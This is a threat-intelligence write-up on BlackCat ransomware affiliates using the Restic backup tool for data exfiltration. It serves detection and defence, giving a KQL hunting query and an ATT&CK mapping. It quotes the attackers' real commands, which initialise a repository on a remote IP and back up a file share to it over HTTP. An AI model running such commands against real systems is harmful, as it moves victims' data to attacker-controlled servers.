

# Restic | Data Exfiltration

# Summary:

Restic is an open-source backup tool that supports backing up data to various storage types, including local directories, SFTP servers, and cloud services like Amazon S3, Google Cloud Storage, and Microsoft Azure. Recently, it has been observed in use by the BlackCat Ransomware group.

## Attribution & Threat Actor
- BlackCat Ransomware Affiliates

## Diagram Overview of Attack/Methods STIX2: 

[STIX Visualizer](https://oasis-open.github.io/cti-stix-visualization/?url=https://raw.githubusercontent.com/CTI-Driven/Advanced-Threat-Hunting-Ransomware-Groups/main/Arsenals/Restic/STIX/Restic.json)

 

## Technical Details:

The threat actor used Restic to perform the data exfiltration. Below are the two primary commands executed by the attacker:

## a) Initializing the Backup Repository
```bash
restic.exe -r rest:http://195.123.226.84:8000/ init --password-file ppp.txt
```

- **restic.exe**: The Restic binary used for the backup operation.
- **-r rest:http://195.123.226.84:8000/**: This specifies the backup repository location. The backup data was sent over HTTP to a remote server (`195.123.226.84`) running a REST service on port 8000.
- **init**: Initializes a new backup repository at the specified location.
- **--password-file ppp.txt**: The `ppp.txt` file contains the password for accessing the repository. This password file is required to encrypt/decrypt the backup data.

## b) Executing the Data Exfiltration
```bash
restic.exe -r rest:http://195.123.226.84:8000/ --password-file ppp.txt --use-fs-snapshot --verbose backup "F:\Shares\<REDACTED>\<REDACTED>"
```

- **backup "F:\Shares\<REDACTED>\<REDACTED>"**: This command backs up the data from the local directory located at `F:\Shares\<REDACTED>\<REDACTED>`.
- **--password-file ppp.txt**: Uses the password file to authenticate to the backup repository.
- **--use-fs-snapshot**: This option enables Restic to leverage the **Volume Shadow Copy Service (VSS)**, which allows it to create backups of files that may be locked by other processes. This is particularly useful for backing up active files that are currently in use.
- **--verbose**: Prints live output during the backup process, providing status updates on the exfiltration process.


## Detection Opportunities (KQL):

```kusto
// Replace "Timestamp" with "TimeGenerated" when running this KQL query in Microsoft Sentinel.
//Comment: A true positive would involve the following:
//-> restic.exe -r rest:http://195.123.226[.]84:8000/ init --password-file ppp.txt
//-> restic.exe -r rest:http://195.123.226[.]84:8000/ --password-file ppp.txt --use-fs-snapshot --verbose backup "F:\Shares\<REDACTED>\<REDACTED>"
//-> Preparing a new repository CommandLine activity using restic
//-> Local: restic init --repo /srv/restic-repo
//-> SFTP: restic -r sftp:user@host:/srv/restic-repo init
//-> REST Server: restic -r rest:http://host:8000/ init
//-> Amazon S3: restic -r s3:s3.us-east-1.amazonaws.com/bucket_name init
//-> Minio Server: restic -r s3:http://localhost:9000/restic init
//-> OpenStack Swift: restic -r swift:container_name:/path init
//-> Wasabi: restic -o s3.bucket-lookup=dns -o s3.region=<OSS-REGION> -r s3:https://<OSS-ENDPOINT>/<OSS-BUCKET-NAME> init
//-> Backblaze B2: restic -r b2:bucketname:path/to/repo init
//-> Microsoft Azure Blob Storage: restic -r azure:foo:/ init
//-> Google Cloud Storage: restic -r gs:foo:/ init
//-> rclone: restic -r rclone:foo:bar init
/Title: Detect the Use of Restic for Backup Repository Initiation and Data Exfiltration.
//QKL Advanced hunting query:
let timeframe = 24hr;
// Detection 1: Traffic related to Restic API HTTP header request
let Restic_API_HTTPRequest = (
    DeviceNetworkEvents
    | where Timestamp >= ago(timeframe)
    | where ActionType == "HttpConnectionInspected"
    | extend AdditionalFields_info = parse_json(AdditionalFields)
    | where  AdditionalFields_info.uri in ("application/vnd.x.restic.rest.v1", "application/vnd.x.restic.rest.v2")
          or AdditionalFields_info.user_agent contains "restic"
);
// Detection 2: Process commands events related to Restic tool that could be used to initiate the backup repository and exfiltration
let Restic_ProcessCommandsEvents = (
    DeviceProcessEvents
    | where Timestamp >= ago(timeframe)
    | where ((ProcessCommandLine has_all (" -r", " :/", " init") or ProcessCommandLine has_all (" --repo", ":/", " init"))
     or ProcessCommandLine has_any (" backup", " init")
     and (   (ProcessCommandLine has_all (" -r", " sftp:"))
           or(ProcessCommandLine has_all (" -r", " rest:http"))
           or(ProcessCommandLine has_all (" -r", " s3:s3.", "amazonaws"))
           or(ProcessCommandLine has_all (" -r", " s3:http"))
           or(ProcessCommandLine has_all (" -r", " swift:"))
           or(ProcessCommandLine has_all (" -r", " b2:"))
           or(ProcessCommandLine has_all (" -r", " azure:"))
           or(ProcessCommandLine has_all (" -r", " gs:"))
           or(ProcessCommandLine has_all (" -r", " gs:"))
           or(ProcessCommandLine has_all (" -r", " rclone:"))
)));
// Combine all detections
let Suspicious_Restic_data_Exfiltration_Activities = (
    union Restic_API_HTTPRequest, Restic_ProcessCommandsEvents
    | summarize arg_max(Timestamp, *) by DeviceId
    | order by Timestamp asc
);Suspicious_Restic_data_Exfiltration_Activities
```

## ATT&CK Techniques:

1. **Exfiltration**
    - **T1048 - Exfiltration Over Alternative Protocol**:  
       The threat actor utilized Restic, an open-source backup tool, to exfiltrate data from a file server by backing up directories over HTTP to a remote server. The tool used the rest backend to store data on a remote REST server. 

## References:
- https://thedfirreport.com/2024/09/30/nitrogen-campaign-drops-sliver-and-ends-with-blackcat-ransomware/#exfiltration
- https://restic.net
